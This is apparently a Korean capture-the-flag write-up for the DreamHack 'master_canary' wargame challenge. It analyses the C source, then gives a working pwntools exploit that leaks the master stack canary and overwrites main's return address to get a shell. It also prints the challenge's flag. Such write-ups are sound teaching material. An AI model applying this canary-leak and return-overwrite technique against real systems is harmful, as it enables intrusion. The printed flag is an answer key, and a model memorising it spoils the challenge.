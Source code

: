 # [DreamHack] master_canary

:writing_hand: [h0meb0dy](mailto:h0meb0dysj@gmail.com)

> 이 문제는 서버에서 작동하고 있는 서비스(master_canary)의 바이너리와 소스 코드가 주어집니다.
> 카나리 값을 구해 실행 흐름을 조작해 셸을 획득하세요.
> 셸을 획득한 후 얻은 “flag” 파일의 내용을 워게임 사이트에 인증하면 점수를 획득할 수 있습니다.
> 플래그의 형식은 DH{…} 입니다.
>
> Release: [master_canary.zip](https://github.com/h0meb0dy/Dreamhack-Wargame/files/8549898/master_canary.zip)

## Mitigation

![image](https://user-images.githubusercontent.com/102066383/161218706-b74aa62f-143d-414f-b9dd-35bcaf481520.png)

## Analysis

### 1. Create thread

```c
            case 1:
                if (pthread_create(&thread_t, NULL, thread_routine, NULL) < 0)
                {
                    perror("thread create error");
                    exit(0);
                }
                break;
```

쓰레드를 생성하고 `thread_routine()`을 호출한다.

```c
void *thread_routine() {
    char buf[256];

    global_buffer = buf;

}
```

`thread_routine()`에서는 전역 변수 `global_buffer`에 `buf`의 주소, 즉 새로 만들어진 쓰레드의 스택의 주소를 저장한다.

### 2. Input

```c
            case 2:
                printf("Size: ");
                scanf("%d", &size);

                printf("Data: ");
                read_bytes(global_buffer, size);

                printf("Data: %s", global_buffer);
                break;
```

`global_buffer`에 원하는 크기만큼 데이터를 입력할 수 있다. 입력하고 나서는 `global_buffer`에 저장된 데이터를 출력해 주는데, `printf("%s")`로 출력하여 memory leak이 발생할 수 있다.

### 3. Exit

```c
            case 3:
                printf("Leave comment: ");
                read(0, leave_comment, 1024);
                return 0;
```

`leave_comment`는 32바이트 크기의 buffer인데, 1024바이트만큼 입력을 받아서 BOF가 발생한다.

## Exploit

Thread 2의 스택에서 발생하는 BOF를 이용하여 thread 1의 master canary를 leak할 수 있다. Canary 값을 알아낸 후에, `main()`의 return address를 `get_shell()`의 주소로 덮으면 셸을 획득할 수 있다.

```python
from pwn import *

REMOTE = True

if not REMOTE:
    r = process('./release/master_canary')
else:
    r = remote('host1.dreamhack.games', 15807)

sla = r.sendlineafter
sa = r.sendafter

get_shell = 0x400a4a  # get_shell()


# leak canary

sla('> ', '1')

sla('> ', '2')
size = 0x8e9
sla('Size: ', str(size))
sa('Data: ', 'a' * size)

r.recvuntil('a' * size)
canary = u64(r.recvn(7).rjust(8, b'\x00'))


# overwrite return address of main() with get_shell()

payload = b'a' * 0x28 # dummy
payload += p64(canary) # canary
payload += b'a' * 8 # sfp
payload += p64(get_shell)

sla('> ', '3')
sa('Leave comment: ', payload)


r.interactive()
```

```
$ python3 solve.py
[+] Opening connection to host1.dreamhack.games on port 15807: Done
[*] Switching to interactive mode
$ cat flag
DH{7c0bfdbd75bc61acadbe856d6738758b}
```